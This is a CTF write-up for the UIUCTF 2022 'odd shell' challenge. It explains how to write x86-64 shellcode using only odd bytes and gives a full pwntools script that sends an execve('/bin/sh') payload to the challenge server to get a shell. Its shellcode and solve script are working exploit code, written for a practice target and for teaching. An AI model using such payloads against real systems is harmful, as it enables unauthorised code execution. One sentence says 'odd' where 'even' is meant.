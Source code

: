 ```yaml
---
layout: single
title:  "UIUCTF22 - odd shell Writeup"
last_modified_at: 2022-08-02
---
```


Shellcoding but with only odd bytes.

# Intro

Challenge description:

> O ho! You found me! I have a display of oddities available to you!

Challenge files:

- [chal](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/chal)
- [Dockerfile](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/Dockerfile)
- [nsjail.cfg](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/nsjail.cfg)

Security mitigations:

![](../assets/posts/2022-07-31-odd-shell-writeup/images/checksec.png)

# Program analysis

The program is pretty simple:

![](../assets/posts/2022-07-31-odd-shell-writeup/images/IDA.png)

1. A page with the size `0x100` gets allocated at `0x123412340000` in memory. The page can read, write, and execute data. 

2. The input is read to the allocated page.

3. If the input ends with a new line character, it will get replaced with a null byte. 

4. The for loop iterates every byte of the input, and if the byte is even, it exits. In other words, only odd bytes are allowed in the input. 

5. The input is interrupted as instructions.

Ok, so we need to create a shellcode that doesn't contain any odd bytes.

# Shellcoding

The goal is to execute `execve("/bin/sh", NULL, NULL)`

To set up the `execve` syscall, the registers need to be in this state:

- rdi = address of "/bin/sh" string
- rsi = 0x0
- rdx = 0x0
- rax = 0x3b

`0x3b` is the syscall number for `execve`

There is no odd bytes in `syscall` --> `0xf 0x5`

After spending some time reading [X86 Opcode and Instruction Reference](http://ref.x86asm.net/coder64.html) and testing.

I found the following useful instructions with only odd bytes:

- `xor edi, edi` --> `0x31 0xff`
- `inc edi` --> `0xff 0xc7`
- `xchg edi, esi` --> `0x87 0xf7`
- `shl edi` --> `0xd1 0xe7`

While the above instructions are useful, we can only access the lower 4 bytes of the register, we need a way to access the upper 4 bytes of the register.

The problem is the `0x48` or `"H"` byte is preventing me from accessing the full register. For example: `shl rdi` --> `0x48 0xd1 0xe7`

I found that `r9-r15` registers use the `0x49` byte:exclamation:

We can only use `r9, r11, r13, r15`. However, we still have to write "/bin/sh" string byte by byte. ("/bin/sh" in little endian: `68732f6e69622f`)

I used these instructions in the shellcode.

Clear register: `xor r11, r11`

Exchange value between the two registers: `xchg r11, rdi`

Write the odd byte to pass the filter, then increment it: 

```
add r11, 0x67
inc r11
```

shift everything by 1 byte:

```
.rept 8
shl r11
.endr
```

# Solve script

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.log_level = "info"

gdb_script = """
b *main+215
b *main+269
b *main+349
"""

assembly_shellcode = """
xor r11, r11

// build "/bin/sh" byte by byte in r11
add r11, 0x67
inc r11
.rept 8
shl r11
.endr

add r11, 0x73
.rept 8
shl r11
.endr

add r11, 0x2f
.rept 8
shl r11
.endr

add r11, 0x6d
inc r11
.rept 8
shl r11
.endr

add r11, 0x69
.rept 8
shl r11
.endr

add r11, 0x61
inc r11

.rept 8
shl r11
.endr

add r11, 0x2f

// push "/bin/sh" to stack and set rdi to rsp
push r11
xor r11, r11
add r11, rsp
xchg r11, rdi

// set rsi and rdx to NULL
xor r11, r11
xchg r11, rsi
xor r11, r11
xchg r11, rdx

// set rax to execve syscall num
xor r11, r11
add r11, 0x3b
xchg r11, rax

// execve("/bin/sh", NULL, NULL)
syscall
"""

shellcode = pwn.asm(assembly_shellcode)

for i, b in enumerate(bytearray(shellcode)):
    even = (b & 1)
    assert even, print(f"[error], {i}: {hex(b)}")

HOST, PORT = ("odd-shell.chal.uiuc.tf", 1337)
with pwn.remote(HOST, PORT) as p:
#with pwn.process(["./chal"], env={}) as p:
#with pwn.gdb.debug(["./chal"], gdbscript=gdb_script) as p:
    init = p.recvuntil(b":\n")
    payload = shellcode
    p.sendline(payload)
    p.interactive()
```
